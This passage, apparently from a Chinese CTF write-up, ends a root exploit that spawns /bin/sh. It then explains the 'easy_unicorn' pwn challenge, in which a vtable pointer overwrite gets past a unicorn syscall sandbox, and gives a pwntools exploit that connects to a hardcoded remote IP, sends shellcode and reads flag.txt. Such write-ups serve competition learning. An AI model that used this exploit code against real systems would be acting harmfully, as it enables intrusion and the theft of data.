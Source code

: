 ```
         		printf("[+]rooted!!\n");
         		system("/bin/sh");
      		}
   	} 	
   	else 
   	{
      		wait(NULL);
   	}
	return ;
}
```

# easy_unicorn

用unicorn跑了一个程序,要我们pwn这个文件,总体实现还是可以理解的,但是卡在了恢复文件的过程中,赛后复现的时候,发现其实并没有想的那么难,题目提供了一个dump文件,文件中记录着一个程序在运行时所有的段,然后利用unicorn把他加再进去.

题目逻辑就是先将passwd加密,然后打印在屏幕上,需要进行逆向

然后输入程序,发现后面没有输入点了,这时继续分析主函数,发现一个函数指针的调用,这里是在一个结构体里面的vtable指针,结构体指针在栈里

```
p
*p = vtable
call *(*p + 8)
```

在函数前部,可以看到一个给vtable赋值的地方,分别是赋值0x401920然后用0x401900盖住,看到相应的位置,可以看到,其实这里是两组vtable,然后只有后面那组才有输入功能,这里需要改vtable的值,最后看到在输入失败的时候1,会有一个*a++的操作,也就是指针加,但是输入失败的时候,在while循环中,会检查输入的字节,累计字节不能超过4,所以只能发送空内容,这样就能绕过这个检测

不知道为什么本地打不起来...,open文件总是出问题

实现原理就是给syscall添加hook,在每次调用到syscall时,由sandbox处理,例如open,则sandbox会从寄存器读出寄存器以及字符串值,然后代替打开文件,返回文件描述符,继续运行



exp:

```
from pwn import *

context.arch = "amd64"

r = remote("121.37.167.199",9998)
#r = process("./x86_sandbox")
key = "062f392d417574680083100500080000"

for i in range(0x20):
    r.sendlineafter(" << ","")

r.sendlineafter(" << ",key)
#r.sendlineafter("]","n")
r.recvuntil("data ptr:")
p = int(r.recvline(),16)
print hex(p)

shellcode = shellcraft.open("flag.txt")
shellcode += shellcraft.read(3,0x603080,0x20)
shellcode += shellcraft.write(1,0x603080,0x20)

r.sendlineafter("<<",asm(shellcode))
r.sendlineafter("<<",str(p))
r.sendlineafter("<<",str(p))
r.sendlineafter("<<",str(p))
r.sendlineafter("<<",str(p))
```